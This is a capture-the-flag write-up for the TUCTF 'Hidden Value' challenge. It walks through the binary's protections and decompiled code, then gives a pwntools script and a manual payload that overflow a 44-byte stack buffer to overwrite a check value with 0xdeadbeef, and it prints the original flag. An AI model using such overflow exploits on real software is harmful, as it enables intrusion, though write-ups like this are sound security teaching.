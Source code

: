 # Hidden Value

## Challenge Description
```text
Easy

There's a hidden value in this program, can you find it?
nc chal.tuctf.com 30011
```

## Protections
The NX is enabled so can't execute shellcode on the stack but it won't bother us
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ checksec hidden-value 
[*] '/home/vein/tuctf/pwn_hidden-value/hidden-value'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## First Look
We run the program and that what it looks like:
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./hidden-value            
Enter your name: leo
Hello, leo
! Nothing special happened.
```
## Static Analysis in Ghidra

We open the program in Ghidra and we go directly to main to see what is happening
```c

undefined8 main(void)

{
  char local_78 [112];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  printf("Enter your name: ");
  fgets(local_78,100,stdin);
  greet_user(local_78);
  return 0;
}
```
We see that after we insert our name in the program,one function is called with it as function's input -> greet_user(local_78);

```c
void greet_user(char *param_1)

{
  char local_38 [44];
  int local_c;
  
  local_c = 0x12345678;
  strcpy(local_38,param_1);
  if (local_c == L'\xdeadbeef') {
    hidden_command();
  }
  else {
    printf("Hello, %s! Nothing special happened.\n",local_38);
  }
  return;
}
```

```c
void hidden_command(void)

{
  char local_78 [104];
  FILE *local_10;
  
  puts("Congratulations! You have executed the hidden command.");
  local_10 = fopen("flag","r");
  fgets(local_78,100,local_10);
  printf("The flag is: %s\n",local_78);
  return;
}
```
Here is the problem. We don't have immediately in the main a buffer overflow but in the buffer of main will cause a bof in greet_user() cause in the
first one the buffer size is 112 and the others is 44. So after 44 bytes we have a bof and we can overwrite the value of local c to deadbeef to execute
hidden_command() funtion that will give us the flag

## Exploitation

Here is the python script

```python
#!/usr/bin/env python3
from pwn import *

p = process('./hidden-value')  # local now cause i'm doing the writeup long time after the ctf :) 
#p = remote('chal.tuctf.com', 30011) 
param = 0xdeadbeef # the word that we want to inject to execute hidden_command() and take the flag
padding = b'a' * 44

payload = flat(
	padding,
	param
	)

p.sendline(payload)
print(p.recvall())
```

```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./exploit.py
[+] Starting local process './hidden-value': pid 2908
[+] Receiving all data: Done (109B)
[*] Stopped process './hidden-value' (pid 2908)
b'Enter your name: Congratulations! You have executed the hidden command.\nThe flag is: fake{fl4g_f0r_t3st1ng}\n\n'
```

I also made manual payload for fun
```shell + console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ python2 -c print"'a' * 44 + '\xef\xbe\xad\xde'"> payload

┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./hidden-value < payload                                
Enter your name: Congratulations! You have executed the hidden command.
The flag is: fake{fl4g_f0r_t3st1ng}

zsh: segmentation fault  ./hidden-value < payload
```

The original flag was: TUCTF{pr4cti4l_buffer_overrun}








